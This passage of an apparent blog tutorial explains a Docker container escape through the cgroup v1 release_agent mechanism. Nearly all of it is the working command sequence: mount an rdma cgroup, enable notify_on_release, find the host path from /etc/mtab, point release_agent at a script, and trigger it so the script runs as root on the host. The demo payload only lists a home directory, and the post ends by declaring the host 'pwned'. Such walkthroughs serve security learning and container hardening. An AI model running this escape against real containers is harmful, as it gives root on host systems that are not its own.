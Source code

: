 First, let's create some directories where we will mount a `cgroup` controller named RDMA[^2]:

```
# mkdir /tmp/cgroup
# mount -t cgroup -o rdma cgroup /tmp/cgroup/
# mkdir /tmp/cgroup/x
```

To interact with a `cgroup`, we need to mount the appropriate fs with the desired controllers.
`mount -t` allows us to mount a specific type of filesystem (here a cgroup). `-o` indicates the options: we say here that we want to mount the RDMA controller at the path `/tmp/cgroup`.

And then we create a child cgroup name "x" which will inherit the properties of its parent.

Now, we must enable cgroup notifications on release for the "x" cgroup. This can be done by setting a 1 in `notify_on_release` inside the "x" cgroup:

```
# echo 1 > /tmp/cgroup/x/notify_on_release
```

Then, we must get the location of the `release_agent` file on the host:

```
# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

We can do this because the `root` user in a container is exactly the same `root` user than on the host ! If you want to verify this, you can get the value store in `$host_path` is accessible by your `root` user on the host. In fact, the container filesystem is mounted under `/var/lib/docker` on the host.

Now, let's put the path of the script inside `release_agent`:

```
# echo "$host_path/script" > /tmp/cgroup/release_agent
```

And create the script we want to execute on the host:

```
# echo '#!/bin/sh' > /script
# echo "ls /home/ezekiel > $host_path/result" >> /script
```

Make it executable:

```
# chmod a+x /script
```

And launch a process in the cgroup that will exit instantly:

```
# sh -c "echo \$\$ > /tmp/cgroup/x/cgroup.procs"
# head /result -n1
Desktop
```

Et voilà, the host has been pwned !

---


[^1]: https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
[^2]: https://www.kernel.org/doc/html/latest/admin-guide/cgroup-v1/rdma.html
[^3]: https://docs.docker.com/engine/api/